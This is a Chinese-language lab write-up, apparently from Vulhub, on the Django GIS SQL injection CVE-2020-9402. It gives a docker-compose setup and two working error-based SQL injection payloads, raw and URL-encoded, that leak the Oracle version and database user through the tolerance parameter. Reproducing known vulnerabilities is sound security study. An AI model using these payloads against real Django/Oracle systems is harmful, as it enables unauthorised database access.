

Django GIS SQL 注入漏洞 CVE-2020-9402¶
漏洞描述¶
Django 在 2020 年 3 月 4 日发布了一个安全更新，修复了在 GIS 查询功能中存在的 SQL 注入漏洞。
参考链接：
该漏洞需要开发者使用了 GIS 中聚合查询的功能，用户在 oracle 的数据库且可控 tolerance 查询时的键名，在其位置注入 SQL 语句。
环境搭建¶
Vulhub 执行如下命令编译及启动一个存在漏洞的 Django 3.0.3：
docker-compose build
docker-compose up -d
环境启动后，访问 http://your-ip:8000 即可看到 Django 默认首页。
漏洞复现¶
漏洞一¶
首先访问 http://your-ip:8000/vuln/。
在该网页中使用 get 方法构造 q 的参数，构造 SQL 注入的字符串 20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null OR (1+1
http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
可见，括号已注入成功，SQL 语句查询报错：

漏洞二¶
访问 http://your-ip:8000/vuln2/。 在该网页中使用 get 方法构造 q 的参数，构造出 SQL 注入的字符串 0.05))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --
http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--